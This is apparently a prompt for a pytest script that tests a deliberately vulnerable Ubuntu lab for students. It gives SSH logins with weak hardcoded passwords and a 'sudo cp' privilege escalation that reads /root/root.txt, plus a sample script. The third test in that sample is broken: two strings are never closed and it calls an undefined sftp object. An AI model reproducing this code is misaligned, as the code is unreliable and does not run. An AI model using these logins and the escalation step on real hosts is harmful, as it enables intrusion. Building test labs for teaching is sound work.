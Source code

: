 請求事項說明
========
> by carlton0521

# 運用構想：

I've prepared a vulnerable Ubuntu that with weak ssh password and cp-privilege vulnerabilities. I need a python test script.

# 擬請AI提供項目

* please provide a python script using pyTest to test following test cases.

## 說明：
* give detail instruction about how to use this script. especially the command to install libraries.

## 測試個案-管理設定
  * connect the ssh service  with  uid/pwd:boxadmin/boxadmin, the result should show that boxadmin is in sudo group.。

## 測試個案-外部滲透
  * connect the ssh service with  uid/pwd:allen/password, the result should show login attempt success.
  * read ~/user.txt, the result should show file access success.。

## 測試個案-內部提權
  * connect the ssh service with  uid/pwd:allen/password, the result should show login attempt success.
  * use sudo-cp-previlege escallation technology to read /root/root.txt , the result should show file access success. 

# 擬請AI作業流程

## When prepare the data:
- assume this file will be named test.py
- Write comment with traditional Chinese.
- In the file beginning, give detail instructions about how to use this file. Also tell user to use pytest -v for detail info.
- Do the work step by step. Make it easy to understand for students.

## When respond the data to me
- just show the action files only. If you need any thing for reminding, put it in the action file in comment style.

# 提供AI參考格式
```
# 使用說明：
# 1. 將此腳本保存為 test_vulnerabilities.py。
# 2. 安裝 Python，作法為：在您的操作系統上安裝合適版本的 Python。
# 3. 安裝 pytest，作法為：在命令行中執行 pip install pytest。
# 4. 安裝 paramiko，作法為：在命令行中執行 pip install paramiko。
# 5. 在終端機中執行 pytest -v test_vulnerabilities.py 進行測試，以獲得詳細信息。

import pytest
import paramiko

# 指定參數
target_ip = "127.0.0.1"  # 請替換成目標主機IP
target_port = 22  # SSH端口

@pytest.fixture(scope="module")
def ssh_client():
    client = paramiko.SSHClient()
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    return client

# 測試個案1
def test_ssh_login_as_admin(ssh_client):
    """測試個案-管理設定：以boxadmin登入，檢查是否為sudo組成員。"""
    try:
        ssh_client.connect(target_ip, username='boxadmin', password='boxadmin', port=target_port)
        stdin, stdout, stderr = ssh_client.exec_command('groups')
        groups = stdout.read().decode()
        assert 'sudo' in groups, "boxadmin 應該是 sudo 群組的成員"
    finally:
        ssh_client.close()

# 測試個案2
def test_ssh_login_success_and_read_user_file(ssh_client):
    """測試個案-外部滲透：以正確密碼登入allen並讀取user.txt，預期成功。"""
    try:
        ssh_client.connect(target_ip, username='allen', password='password', port=target_port)
        sftp = ssh_client.open_sftp()
        user_file = sftp.file('/home/allen/user.txt', 'r')
        assert user_file.read(), "應該能夠讀取 /home/allen/user.txt"
    finally:
        ssh_client.close()

# 測試個案3
def test_cp_privilege_escalation(ssh_client):
    """測試個案-內部提權：利用cp-privilege漏洞讀取/root/root.txt。"""
    try:
        ssh_client.connect(target_ip, username='allen', password='password', port=target_port)
        ssh_client.exec_command('sudo cp /root/root.txt /tmp/)
        root_file = sftp.file('/tmp/root.txt, 'r')
        assert root_file.read(), "應該能夠讀取 /root/root.txt"
    finally:
        ssh_client.close()
```
